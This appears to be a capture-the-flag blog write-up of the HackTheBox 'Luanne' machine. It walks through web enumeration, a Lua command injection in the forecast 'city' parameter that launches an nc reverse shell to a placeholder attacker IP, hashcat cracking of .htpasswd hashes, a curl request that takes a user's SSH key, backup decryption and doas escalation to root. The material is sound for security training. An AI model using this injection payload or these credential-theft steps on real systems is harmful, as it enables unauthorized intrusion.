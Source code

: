 ```yaml
---
title: Luanne Hackthebox Writeup
date: 2020-12-01 09:00:00 +0800
categories: [Hackthebox, Active]
tags: [bsd,doas,hashcat,cracking,hashes,ssh,reverse shell,lua,gobuster,directory enumeration,netbsd,luanne,hackthebox]     # TAG names should always be lowercase
image: /pulkittalwar/assets/img/luanne-hackthebox/luanne-pic.png
subtitle: JHBDOcubeoveiubo
---
```


# Introduction@Luanne:~$


Column | Details
------------ | -------------
Name | Luanne
IP | 10.10.10.218
Points | 20
Os | BSD
Difficult | Easy
Creator | [polarbearer](https://www.hackthebox.eu/home/users/profile/159204)
Out on | 28th November 2020

# Summary:~$

* Discovering the new host and scanning for open ports.
* Checking **robots.txt** and enumerating the `directories`.
* Generating a reverse shell in `Lua`.
* Getting a low priviveleged shell, and traversing in every directory.
* **Cracking** hash using `hashcat`.
* Accessing an unexplored port i.e. `3001`.
* Extracting `id_rsa` of one of the users : `r.michaels` using a crafted **curl** command.
* Loging into `r.michaels` using **ssh** with **id_rsa**.
* Manually `enumerating` and looking for interesting files.
* Decrypting a file using `netpgp` : A tool for decrypting files in BSD.
* **Cracking** another hash using `hashcat`.
* **Escalating** privileges as **root** using `doas` command in BSD.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/pulkittalwar/assets/img/luanne-hackthebox/xx-alternate-nmapautomator.png)


Basically 3 ports are open : `22:ssh` `80:http` `9001:http-Medusa`.

I looked at **port 80** which showed `/weather` as one of the directories.

Accessing `http://10.10.10.218`.

___
![](/pulkittalwar/assets/img/luanne-hackthebox/latestt-01.png)


Accessing `http://10.10.10.218/robots.txt`.

___
![](/pulkittalwar/assets/img/luanne-hackthebox/latest-02.png)


Accessing `http://10.10.10.218/weather`.

___
![](/pulkittalwar/assets/img/luanne-hackthebox/latest-03.png)


It shows a `404 error` , enumerating directory with `gobuster`.

**Command used:** `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.218/weather/ -t 100`

___
![](/pulkittalwar/assets/img/luanne-hackthebox/gobuster.png)


I got another directory as `/forecast`. Further accessing and providing the parameter as `city`.

___
![](/pulkittalwar/assets/img/luanne-hackthebox/latest-04.png)


___
![](/pulkittalwar/assets/img/luanne-hackthebox/latest-05.png)


Trying to create an `error` with which is `%27` in URL encode.

___
![](/pulkittalwar/assets/img/luanne-hackthebox/creating-error.png)


From the error I got to know that a language called `Lua` is being used.

After some research I created a `reverse shell`.

**Shell Command :** *http://10.10.10.218/weather/forecast?city=London'+os.execute("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR-IP 4444 >/tmp/f ")+'*

URL encoding the reverse shell payload, sending it and listening on `nc`.

___
![](/pulkittalwar/assets/img/luanne-hackthebox/initial-foothold-shell-10.png)


I got a shell as `_httpd`.

After that, I manually enumerated the files and while accessing `/var/www/`, I got a `.htpasswd` file.

___
![](/pulkittalwar/assets/img/luanne-hackthebox/webapi-user-12.png)


I used `Hashcat` to crack the hash.

**Hashcat Command:** *hashcat -m 500 -a 0 /home/pulkittalwar2611/Desktop/hashes rockyou.txt --force*. Where the hash is stored in the file called `hashes`.

___
![](/pulkittalwar/assets/img/luanne-hackthebox/hashcat-commad-cracking-14.png) ___

Got the password as `iamthebest`. I logged in port 80 but couldn't find anything there.

Accessing `port 9001`, and entering **user:123** as random username:password.

___
![](/pulkittalwar/assets/img/luanne-hackthebox/port-9001-login-access-17.png)


Further I checked `http://10.10.10.218:9001/logtail/processes`. I found the following:

___
![](/pulkittalwar/assets/img/luanne-hackthebox/logical-process-3001-port.png)


To understand in detail, read this : [Userdir](https://httpd.apache.org/docs/2.4/mod/mod_userdir.html) and [Userdir-feature](https://websiteforstudents.com/configure-nginx-userdir-feature-on-ubuntu-16-04-lts-servers/).

Getting `id_rsa` of the user: `r.michaels`.

**Command Used:** *curl --user webapi_user:iamthebest http://127.0.0.1:3001/~r.michaels/id_rsa*

___
![](/pulkittalwar/assets/img/luanne-hackthebox/id-rsa-r.michaels-19.png)


Proving permissions to `id_rsa` as `600`. Loging in as `r.michaels` using ssh and id_rsa.

**Command Used:** *chmod 600 id_rsa* 

*ssh -i id_rsa r.michaels@10.10.10.218*

___
![](/pulkittalwar/assets/img/luanne-hackthebox/ssh-loggedin-21.png)


Got `User Flag`.

___
![](/pulkittalwar/assets/img/luanne-hackthebox/user-flag-22.png)


Further enumerating manually, I got a `backup file` in `/home/r.michaels/backups/`. As it was encrypted so I used `netpgp` command to decrypt it.

___
![](/pulkittalwar/assets/img/luanne-hackthebox/backups-r.michales-encrypt-23.png)


**Command Used:** *netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc --output=/tmp/output.tar.gz*

___
![](/pulkittalwar/assets/img/luanne-hackthebox/netpgp-decrypt-output-25.png)


___
![](/pulkittalwar/assets/img/luanne-hackthebox/unzip-gunzip-28.png)


After accessing `devel-2020-09-16/www/.htpasswd`, I got another hash: *webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.*

Again used `Hashcat` to crack the hash.

**Hashcat Command:** *hashcat -m 500 -a 0 /home/pulkittalwar2611/Desktop/hashes rockyou.txt --force*. Where the hash is stored in the file called `hashes`.

___
![](/pulkittalwar/assets/img/luanne-hackthebox/hash-crack-root-30.png)


Got the password as `littlebear`.

To upgrage `privileges` in BSD, following command is used : *doas -u root /bin/sh* and then enter the password you got.

___
![](/pulkittalwar/assets/img/luanne-hackthebox/root-31.png)


Got `Root Flag`.

